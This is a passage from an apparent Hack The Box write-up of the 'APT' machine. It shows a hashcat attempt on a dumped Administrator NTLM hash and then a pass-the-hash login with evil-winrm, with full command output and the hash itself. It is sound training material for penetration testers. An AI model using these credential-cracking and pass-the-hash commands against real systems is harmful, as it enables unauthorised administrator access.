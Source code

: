 Using the template from the blog I was able to dump the hashes from the machine. There were not nearly as many accounts as in the backup! :\)

Now that I had the Administrator hash, it was time to crack it!

```text
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ hashcat -O -D1,2 -a0 -m1000 admin.hash /usr/share/wordlists/rockyou.txt                      255 ⨯
hashcat (v6.1.1) starting...

...snipped...

Session..........: hashcat                       
Status...........: Exhausted
Hash.Name........: NTLM
Hash.Target......: c370bddf384a691d811ff3495e8a72e2
Time.Started.....: Thu Apr  1 18:11:53 2021 (5 secs)
Time.Estimated...: Thu Apr  1 18:11:58 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2957.7 kH/s (0.60ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 6538/14344385 (0.05%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[213134356173382a] -> $HEX[042a0337c2a156616d6f732103]

Started: Thu Apr  1 18:11:51 2021
Stopped: Thu Apr  1 18:11:59 2021
```

I was able to go through all of rockyou.txt in less than 10 seconds, but the password was not in it. I decided to just try to use the hash to log in instead

```text
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ evil-winrm -u Administrator -H c370bddf384a691d811ff3495e8a72e2 -i apt.htb.local

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ============================================
htb\administrator S-1-5-21-2993095098-2100462451-206186470-500


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                          Attributes
========================================== ================ ============================================ ===============================================================
Everyone                                   Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
```